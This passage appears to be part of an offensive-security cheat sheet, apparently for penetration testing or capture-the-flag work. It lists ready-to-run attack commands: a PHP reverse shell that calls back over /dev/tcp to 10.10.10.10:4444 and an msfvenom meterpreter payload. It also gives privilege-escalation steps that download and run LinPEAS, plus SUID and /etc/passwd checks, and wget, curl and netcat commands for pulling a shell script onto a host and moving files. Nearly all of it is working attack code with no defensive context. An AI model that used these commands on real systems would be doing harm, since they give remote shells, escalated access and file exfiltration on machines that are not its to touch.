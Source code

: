 ### PHP
```php
<?php system("/bin/bash -i >& /dev/tcp/10.10.10.10/4444 0>&1"); ?>
```

### msfvenom
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe
```

---

## Privilege Escalation

### LinPEAS
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### WinPEAS
```cmd
winPEASany.exe
```

### Manual Checks
```bash
sudo -l
find / -perm -4000 -type f
cat /etc/passwd
ps aux | grep root
```

---

## File Transfer Techniques

### wget / curl
```bash
wget http://10.10.10.10/shell.sh
curl -O http://10.10.10.10/shell.sh
```

### Python HTTP Server
```bash
python3 -m http.server 8000
```

### nc (Netcat)
```bash
# Sender
nc -lvnp 4444 < file.txt

# Receiver
nc target 4444 > file.txt
```
